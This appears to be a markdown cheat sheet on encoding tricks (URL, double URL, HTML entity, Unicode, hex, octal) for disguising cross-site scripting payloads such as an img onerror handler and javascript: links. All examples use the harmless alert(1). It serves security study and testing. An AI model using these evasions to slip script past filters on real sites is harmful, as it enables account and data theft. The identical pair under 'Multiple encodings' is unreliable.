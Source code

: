 ### Encode as URL

```http2
/?search=Fish & Chips
```


```http2
/?search=Fish+%26+Chips
```

### Double encoding as URL

| Character | Percent encoded | Double encoded  |
| --------- |:---------------:| ---------------:|
|     <     |       %3C       |      %253C      |
|     >     |       %3E       |      %253E      |
|     /     |       %2F       |      %252F      |

### HTML encoding

```html
<img src=x onerror="alert(1)">
```

```html
<img src=x onerror="&#x61;lert(1)">
```

### Leading zeros

```html
<a href="javascript:alert(1)">Click me</a>
```

```html
<a href="javascript&#058;alert(1)">Click me</a>
```

```html
<a href="javascript&#00000000000058;alert(1)">Click me</a>
```

### Unicode escaping

```js
eval("alert(1)")
```

```js
eval("\u0061lert(1)")
```

https://dencode.com/string/unicode-escape

### ASCII Hex encoding

```js
eval("alert")
```

```js
eval("\x61lert")
```

Prefixed with \x

### ASCII Octal encoding

```js
eval("alert")
```

```js
eval("\141lert")
```

Prefixed with \

### Multiple encodings

```html
<a href="javascript:alert(1)">Click me</a>
```

```html
<a href="javascript:alert(1)">Click me</a>
```

https://onlinestringtools.com/convert-string-to-octal

#### References:

https://portswigger.net/web-security/reference/obfuscating-attacks-using-encodings

https://subscription.packtpub.com/book/networking-and-servers/9781785284588/1/ch01lvl1sec11/double-encoding
